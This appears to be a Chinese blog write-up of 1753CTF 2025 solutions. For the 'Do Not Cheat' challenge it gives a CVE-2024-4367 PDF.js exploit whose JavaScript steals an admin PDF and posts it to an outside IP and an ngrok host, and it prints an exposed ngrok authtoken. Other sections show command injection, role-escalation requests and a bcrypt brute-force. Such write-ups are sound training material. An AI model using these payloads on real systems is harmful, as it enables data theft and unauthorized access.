







+++
title = "1753CTF2025"
slug = "1753ctf2025"
description = "每一题都是misc"
date = "2025-04-13T18:12:45"
lastmod = "2025-04-13T18:12:45"
image = ""
license = ""
categories = ["赛题"]
tags = []
+++

## CRYPTO // 🚩 Basecally a Flag (score: 100 / solves: 56)

就只有一个附件，我进行二进制分解出来一个不合理的字符串去解base没有成功，后来知道是要解base4

```
1100 1111 1110 1111 1100 1111 1100 1010 1001 1110 1011 1010 1010 1001 1110 1011 1001 1100 1100
```

我们首先要把二进制转换为四进制，再将四进制转换为ascii字符就是flag

```python
def to_base4(n):
    if n == 0:
        return "0"
    base4 = ""
    while n > 0:
        base4 = str(n % 4) + base4
        n //= 4
    return base4

def decode_flag(encoded_string):
    base4_numbers = encoded_string.split()

    decoded_string = "".join(chr(int(num, 4)) for num in base4_numbers)

    return decoded_string

encoded_string = "1100 1111 1110 1111 1100 1111 1100 1010 1001 1110 1011 1010 1010 1001 1110 1011 1001 1100 1100"

flag = decode_flag(encoded_string)
print("Flag: 1753c{" + flag + "}")
```

## REV/WEB // 🔮 Fortune (score: 380 / solves: 13)

F12查看一下发现wsam东西如何下载，然后逆向一下(俺不会)知道路由

```
/api/v1.05.1753/categories
/api/v1.05.1753/fortune?category=%s
/api/v1.03.410/verify-my-flag/%s
```

主要就是flag路由，截断直接命令执行，`/api/v1.03.410/verify-my-flag/%0Als`，web部分就结束了

## WEB // 🤥 Do Not Cheat (score: 190 / solves: 32)

看起来就像是一个XSS，并且是使用的PDF来操作的，其中源码中注释了一个部分`//{ name: "Flag", url: "/app/admin/flag.pdf" }`，那也就是要想办法访问这个，F12看到利用的`pdf.worker.mjs`来打开的PDF文件，搜索一下`pdf.worker.mjs Vulnerability`，找到了 [CVE-2024-4367](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/) [POC](https://github.com/LOURC0D3/CVE-2024-4367-PoC) 先写个恶意js准备外部加载，避免因为字符串长度问题而导致失败

```js
(function(){
    const flagUrl = '/app/admin/flag.pdf';
    const webhookUrl = 'http://185.244.0.72:10000/';

    fetch(flagUrl, { credentials: 'include' })
      .then(response => response.blob())
      .then(blob => {
          const reader = new FileReader();
          reader.onloadend = function() {
              const pdfData = reader.result;
              fetch(webhookUrl, {
                  method: 'POST',
                  headers: { 'Content-Type': 'application/json' },
                  body: JSON.stringify({ pdf: pdfData })
              });
          };
          reader.readAsDataURL(blob);
      })
      .catch(console.error);
})();
```

抓包得知`/report`路由可以加载外部PDF，但是试着去加载了一下，并没有成功，去写个flask进行处理

```python
from flask import Flask, send_file, request, jsonify
from flask_cors import CORS, cross_origin
import os

app = Flask(__name__)
cors = CORS(app)

UPLOAD_FOLDER = 'uploads'
if not os.path.exists(UPLOAD_FOLDER):
    os.makedirs(UPLOAD_FOLDER)

@app.route('/poc')
@cross_origin()
def poc_pdf():
    return send_file("poc.pdf")

@app.route('/payload')
@cross_origin()
def payload():
    return send_file("poc.js")

@app.route('/upload', methods=['POST'])
@cross_origin()
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400
    
    file = request.files['file']
    
    if file.filename == '':
        return jsonify({'error': 'No file selected'}), 400
    
    if file:
        filename = os.path.join(UPLOAD_FOLDER, file.filename)
        file.save(filename)
        return jsonify({
            'ok': True,
            'message': 'File uploaded successfully',
            'filename': file.filename
        }), 200

if __name__ == '__main__':
    app.run(debug=True)
```

```
python3 CVE-2024-4367.py "var s=document.createElement('script');s.src='http://185.244.0.72:5000/payload';document.body.append(s)" 
```

传参`/report?document=http://185.244.0.72:5000/poc`那样子flag就会在我们的`/var/www/html/uploads/`下面了，不过，貌似是没有成功，我觉得可能是因为我没有使用https的原因，打算配置一下`ngrok`，[注册](https://dashboard.ngrok.com/)，我使用的QQ邮箱，安装一下

```
curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
  | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
  && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
  | sudo tee /etc/apt/sources.list.d/ngrok.list \
  && sudo apt update \
  && sudo apt install ngrok
  
 
ngrok config add-authtoken 2vfmLJpgaYPEtCSV2joL2FYKrdw_2NtJjX9G1SaCCXu7V1A1y

ngrok http http://localhost:5000
```

得到我的临时域名`https://03d5-185-244-0-72.ngrok-free.app`，也这东西还可以哟

```
python3 CVE-2024-4367.py "var s=document.createElement('script');s.src='https://03d5-185-244-0-72.ngrok-free.app/payload';document.body.append(s)"
```

```js
(async () => {
    const res = await fetch("/app/admin/flag.pdf", { credentials: 'include' });
    const blob = await res.blob();

    const formData = new FormData();

    formData.append('file', new File([blob], 'flag.pdf', { type: 'application/pdf' }));

    await fetch('https://03d5-185-244-0-72.ngrok-free.app/upload', {
        method: 'POST',
        body: formData
    });
})();
```

但是还有个问题就是因为这是个临时页面，必须对[How to Bypass Ngrok Browser Warning](https://stackoverflow.com/questions/73017353/how-to-bypass-ngrok-browser-warning) 尝试了一下发现没啥用，到最后直接丧心病狂，用我自己的博客来打的，并且由于`cor`的设置，需要接受不同源的请求，所以需要修改一下请求头





### 细节

- https服务器的准备
- **添加 CORS 配置：**

1. add_header 'Access-Control-Allow-Origin' '*';  # 允许所有来源
2. add_header 'Access-Control-Allow-Methods' 'POST, OPTIONS';  # 允许 POST 和 OPTIONS 方法
3. add_header 'Access-Control-Allow-Headers' 'Content-Type';  # 允许 Content-Type 请求头

- 必须确保自己的PDF是否被解析，可以使用`/?document=<ngrok_url>`进行尝试

## WEB/CRYPTO // 🤷‍♂️ Free Flag (score: 100 / solves: 58)

进来就可以看到flag，但是发现是乱码，查看网站源码可以发现一段js

```js
<script>
        async function getFlag() {
            const flag = [0x45,0x00,0x50,0x39,0x08,0x6f,0x4d,0x5b,0x58,0x06,0x66,0x40,0x58,0x4c,0x6d,0x5d,0x16,0x6e,0x4f,0x00,0x43,0x6b,0x47,0x0a,0x44,0x5a,0x5b,0x5f,0x51,0x66,0x50,0x57]
            const tz = Intl.DateTimeFormat().resolvedOptions().timeZone;
            const resp = await fetch("https://timeapi.io/api/time/current/zone?timeZone=" + tz);
            const date = await resp.json();
            const base = date.timeZone + "-" + date.date + "-" + date.time;
            var hash = CryptoJS.MD5(base).toString();

            const result = flag.map((x, i) => String.fromCharCode(x ^ hash.charCodeAt(i))).join('')
            document.querySelector('span').innerText = result;

            document.getElementsByClassName('ready')[0].style.display = 'block';
            document.getElementsByClassName('loading')[0].style.display = 'none';
        }

        getFlag();
    </script>
```

首先是获取浏览器时区，获取到hash之后进行按位异或，让GPT写exp，但是好像他写不出来啊，其中比较核心的思想就是flag肯定是一个有意义的字符串，所以我们在限制捕捉的时候严格一点，并且有个最痛的点，就是时区好像不能随便写必须是`Europe/Warsaw`

```js
const MD5 = require('crypto-js/md5');
let daysBack = 0;

const flag = [0x45, 0x00, 0x50, 0x39, 0x08, 0x6f, 0x4d, 0x5b, 0x58, 0x06, 0x66, 0x40, 0x58, 0x4c, 0x6d, 0x5d, 0x16, 0x6e, 0x4f, 0x00, 0x43, 0x6b, 0x47, 0x0a, 0x44, 0x5a, 0x5b, 0x5f, 0x51, 0x66, 0x50, 0x57]
const ctfDay = new Date("2025-04-11");

const canBeFlag = (flag) => [...flag].every(x => x.charCodeAt(0) >= 48 && x.charCodeAt(0) <= 125)

while (daysBack < 100) {
    for(let minute = 0; minute < 24 * 60; minute++) {
        const dateTime = new Date(ctfDay.getTime() - daysBack * 24 * 60 * 60 * 1000 + minute * 60 * 1000);
        const date = `${(dateTime.getMonth() + 1).toString().padStart(2, '0')}/${dateTime.getDate().toString().padStart(2, '0')}/${dateTime.getFullYear()}`
        const time = `${dateTime.getHours().toString().padStart(2, '0')}:${dateTime.getMinutes().toString().padStart(2, '0')}`
        const base = "Europe/Warsaw-" + date + "-" + time;

        var hash = MD5(base).toString();
        const result = flag.map((x, i) => String.fromCharCode(x ^ hash.charCodeAt(i))).join('')

        if(canBeFlag(result))
            console.log(result);
    }

    daysBack++;
}
```

找出有意义的字符串是`see_i_told_you_it_was_working_b4`，包上即可

## WEB // 😺 Escatlate (flag #1) (score: 100 / solves: 249)

## WEB // 🙀 Escatlate (flag #2) (score: 100 / solves: 139)

很明显的一个鉴权问题，总共是两个flag，所以这里是两道题，直接一起说了



我们先直接注册账号拿第一个flag，但是发现并没有成功，注册出来的是`user`





可以直接覆盖，必须要改一下数据包才能成功

```http
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Cookie: cf_clearance=rkQF5naqERiUki.3Ckc94r5VsT3hV4YldCvngWJ6xsY-1744629284-1.2.1.1-ZPuXCbYlQy4sg2_Yoz5HKIPHd5RpjRppnXxNVFmuds2gE.RRChPebC3U8ykuwrVFeJoWErK1SNwUgVFcfJIuw0GA5Azn3Oo9EBsyBD10ldR0EZI36WY.ABUL6nIguLGHX7.R5GoZ0oXR0DWbgy431ph4VJ4x9_fh2KTpwDlDNVwfVFPr.i4ZWGk.PTtHrALec3jQNNDwyelQ1WPuBaY3dmgjAkQWIWiixqZ_T5cnHfvjlU1w9kT251VJTeWBD3D_2zvCelH4cauMkGJm.tzuNjSBG2amKoxk_ueiOVXPrveZVMP2cSHXdZiQBgX9Yj4Pgkl9.zBWBGQ.1.f.EhjYf5nwHGROqaq85KIP.rVHulY
Content-Length: 83
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Origin: https://escatlate-52bc47e034fa.1753ctf.com
Referer: https://escatlate-52bc47e034fa.1753ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Accept: */*

{
  "username": "bao2ongwi",
  "password": "bao2ongwi",
  "role": "MODERATOR"
}
```

拿到回显

```http
HTTP/2 200 OK
Date: Mon, 14 Apr 2025 11:30:18 GMT
Content-Type: application/json; charset=utf-8
Etag: W/"8d-jLlyWvwySAkunZ2H9Bv7sd51PuI"
X-Powered-By: Express
Cf-Cache-Status: DYNAMIC
Report-To: {"endpoints":[{"url":"https:\/\/a.nel.cloudflare.com\/report\/v4?s=UL13bWablAl%2F8Y15931PI0fwI9AS9TdqiUmBpAWfxh75x%2F2TxN2NrbC5G6j4yxmfPWHqU5oONqLP9X0WJZm%2BWcY93vCs4jwd6vDKuAUa4%2Fmp5sYC0%2Fo3oF%2BM0Kz92Um6nCywvUrVlwYj%2BlGtt99OrZ3aJaN5"}],"group":"cf-nel","max_age":604800}
Nel: {"success_fraction":0,"report_to":"cf-nel","max_age":604800}
Server: cloudflare
Cf-Ray: 9302decfeb2c6d94-AMS
Alt-Svc: h3=":443"; ma=86400
Server-Timing: cfL4;desc="?proto=TCP&rtt=235401&min_rtt=222372&rtt_var=64330&sent=8&recv=12&lost=0&retrans=0&sent_bytes=771&recv_bytes=1831&delivery_rate=9387&cwnd=215&unsent_bytes=0&cid=4b1e6956bdbd4c5b&ts=535&x=0"

{"username":"bao2ongwi","password":"bao2ongwi","token":"e486e38a1a42eadf58bb09bde106182b2160f062d4135fd4389344da19f533a6","role":"MODERATOR"}
```

看到`auth.js`里面是根据`x-token`来判断的，但是不知道为什么bp原装抓的包就是不可以，需要yakit去构造一种很简单的包才对

```http
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
X-Token: 69236497a9b03f4763e1e8abf7986be6b52f9b41177ebab1a42e7aadb25283a8


```

第二题的话是一个老生常谈的问题，因为我们已经测试出了覆盖的问题，可以直接利用JavaScript大小写解析问题来绕过`admin`

```http
POST /api/register HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
Cookie: cf_clearance=rkQF5naqERiUki.3Ckc94r5VsT3hV4YldCvngWJ6xsY-1744629284-1.2.1.1-ZPuXCbYlQy4sg2_Yoz5HKIPHd5RpjRppnXxNVFmuds2gE.RRChPebC3U8ykuwrVFeJoWErK1SNwUgVFcfJIuw0GA5Azn3Oo9EBsyBD10ldR0EZI36WY.ABUL6nIguLGHX7.R5GoZ0oXR0DWbgy431ph4VJ4x9_fh2KTpwDlDNVwfVFPr.i4ZWGk.PTtHrALec3jQNNDwyelQ1WPuBaY3dmgjAkQWIWiixqZ_T5cnHfvjlU1w9kT251VJTeWBD3D_2zvCelH4cauMkGJm.tzuNjSBG2amKoxk_ueiOVXPrveZVMP2cSHXdZiQBgX9Yj4Pgkl9.zBWBGQ.1.f.EhjYf5nwHGROqaq85KIP.rVHulY
Content-Length: 80
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Origin: https://escatlate-52bc47e034fa.1753ctf.com
Referer: https://escatlate-52bc47e034fa.1753ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Accept: */*

{
  "username": "baozongwi",
  "password": "baozongwi",
  "role": "admın"
}
```

```http
GET /api/message HTTP/2
Host: escatlate-52bc47e034fa.1753ctf.com
X-Token: cbd68e50592b74640bd2da117b4910f73b1fdb447ee31e46fefb23892b8407ac


```

## WEB/CRYPTO // 🔐 Entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy (score: 100 / solves: 116)

一个php，过滤关键信息得到如下代码

```php
<?php

error_reporting(0);
ini_set('display_errors', 0);

session_start();

$usernameAdmin = 'admin';
$passwordAdmin = getenv('ADMIN_PASSWORD');

$entropy = 'additional-entropy-for-super-secure-passwords-you-will-never-guess';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    
    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);
    
    if ($usernameAdmin === $username && 
        password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}

?>
......
<?php
if (isset($_SESSION['logged_in'])) {
?>
```

`password_verify()` 会将用户输入的密码（与用户名和熵拼接）进行相同的哈希运算，使用 `bcrypt` 算法计算哈希值。再与`$hash`进行比较，但是在上周比赛的时候我们知道`bcrypt` 算法只能存储72个值，这里算上，有71个值，所以还是一样的写个脚本就可以了

```python
import requests

url="https://entropyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy-2f567adc1e4d.1753ctf.com/"
combinations = []
for i in range(0,255):
    j=chr(i)
    combinations.append(f'{j}')


for i in combinations:
    r=requests.post(url,data={"username":"admin","password":f"{i}"})
    if "1753c{" in r.text:
        print(r.text)
        exit()
    else:
        print(f"{i} is not right")


```

但是我本来是直接用的`string.digits+string.ascii_letters+string.punctuation`这都还没爆破出来，还有不可见字符，这是真c

## WEB/CRYPTO // 📦 Safebox (score: 100 / solves: 63)

```js
const express = require('express')
const path = require('path')
const crypto = require('crypto');
const bodyParser = require('body-parser');
const fs = require('fs/promises');
const app = express()

const port = 1337

app.use(bodyParser.json({ limit: '100kb' }));

const uploadsDir = path.join(__dirname, 'uploads_dir');

setTimeout(() => process.exit(0), 1000 * 60 * 15);


(async () => {
    await fs.mkdir(uploadsDir, { recursive: true });
    const items = await fs.readdir(uploadsDir);
    for(item of items) await fs.rm(path.join(uploadsDir, item), { recursive: true, force: true });

    const flagFile = await fs.readFile(path.join(__dirname, 'flag.txt'));
    uploadFile('admin', 'flag.txt', flagFile)
})();

const secret = () => crypto.randomBytes(32).toString('hex');

const users = [{ username: "admin", password: secret(), token: secret()}]

app.use("/", express.static(path.join(__dirname, 'public')));

app.post('/api/register', async (req, res) => {
    const { username, password } = req.body;
    
    if (!username || !password)
        return res.status(400).send('Username and password are required');

    const existingUser = users.find(u => u.username === username);
    if (existingUser) return res.status(400).send('User already exists');

    const token = secret();
    users.push({ username, password, token: token });

    const userFolder = crypto.createHash('sha256').update(username).digest('hex');
    const userDir = path.join(uploadsDir, userFolder);
    await fs.mkdir(userDir, { recursive: true });

    res.json({ username, token });
})

app.post('/api/login', (req, res) => {
    const { username, password } = req.body;
    
    if (!username || !password)
        return res.status(400).send('Username and password are required');

    const user = users.find(u => u.username === username && u.password === password);
    if (!user) return res.status(401).send('Invalid credentials');

    res.json({ username: user.username, token: user.token });
})

function encrypt(buffer, key, iv) {
    const cipher = crypto.createCipheriv('aes-256-ofb', key, iv);
    let encrypted = cipher.update(buffer);
    encrypted = Buffer.concat([encrypted, cipher.final()]);
    return encrypted;
}

const uploadFile = async (username, fileName, buffer) => { 

    const key = Buffer.from(process.env.ENCRYPTION_KEY, 'hex');
    const iv = Buffer.from(process.env.ENCRYPTION_IV, 'hex');

    if(buffer.length > 10000)
        return 'File too big';

    const userFolder = crypto.createHash('sha256').update(username).digest('hex');
    const userDir = path.join(uploadsDir, userFolder);
    await fs.mkdir(userDir, { recursive: true });

    const encryptedBuffer = encrypt(buffer, key, iv);

    await fs.writeFile(path.join(userDir, path.basename(fileName)), encryptedBuffer);
}

app.use((req, res, next) => {
    const token = req.headers["x-token"];
    const user = users.find(u => u.token === token);

    if (!user)
        return res.status(401).send('Unauthorized');

    req.user = user.username;
    next();
});

app.use("/files", express.static(path.join(__dirname, 'uploads_dir'))); // just for logged users


app.post('/api/upload', async (req, res) => {
    const { b64file, fileName } = req.body;
    
    if(!b64file || !fileName)
        return res.status(400).send('File is required');

    const buffer = Buffer.from(b64file, 'base64');
    
    const err = await uploadFile(req.user, fileName, buffer);
    if(err)
        res.status(400).send(err);

    res.send('ok');
});

app.get('/api/myfiles', async (req, res) => {
    const userFolder = crypto.createHash('sha256').update(req.user).digest('hex');
    const userDir = path.join(uploadsDir, userFolder);
    const files = await fs.readdir(userDir);
    res.json(files);
})

app.use((err, req, res, next) => {
    res.status(500).send('What?');
});

app.listen(port, () => {
  console.log(`App listening on port ${port}`)
})
```

随便看了看主要还是`X-Token`这个http头，还有就是网页测试发现下载文件需要高级用户才可以，也就是说我们这里并不行，重新注册一个用户观察一下

```http
POST /api/register HTTP/1.1
Host: safebox-1bbcbadc1e5d.1753ctf.com
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{"username":"test","password":"test"}
```

```
{"username":"test","token":"4a094134738e1664e45c92d4e05861d13d3ed6cc4488e8fda61c8666e9341ebe"}
```

注意到下载文件的逻辑主要是两个参数`uploadsDir`和`userFolder`，前者就是`upload`后者是这样生成的

```js
const userFolder = crypto.createHash('sha256').update(username).digest('hex');
```

```js
const crypto = require('crypto');
const username = 'admin';

const hash = crypto.createHash('sha256').update(username).digest('hex');
console.log(hash);
```

```http
GET /files/8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918/flag.txt HTTP/2
Host: safebox-1bbcbadc1e5d.1753ctf.com
X-Token: 4a094134738e1664e45c92d4e05861d13d3ed6cc4488e8fda61c8666e9341ebe


```

出来一坨二进制，避免数据丢失进行base64编码



后面的一个XOR就不是很懂了，但是关键代码在这里



要上传一个全为0x00的文件，这样就可以公用密钥了

## WEB/MISC // 👴🏻 Vibe Coding (score: 100 / solves: 79)

每个人问的都不一样，相当于是AI+`jail`

```js
function getEvalResult() {
    const hexArray = [0x67, 0x65, 0x74, 0x46, 0x6c, 0x61, 0x67, 0x28, 0x29];
    let asciiString = '';
    for (let i = 0; i < hexArray.length; i++) {
        asciiString += String.fromCharCode(hexArray[i]);
    }
    return eval(asciiString);
}
getEvalResult();
```

## 小结

比赛还可以，就是纯一个方向的题目比较少
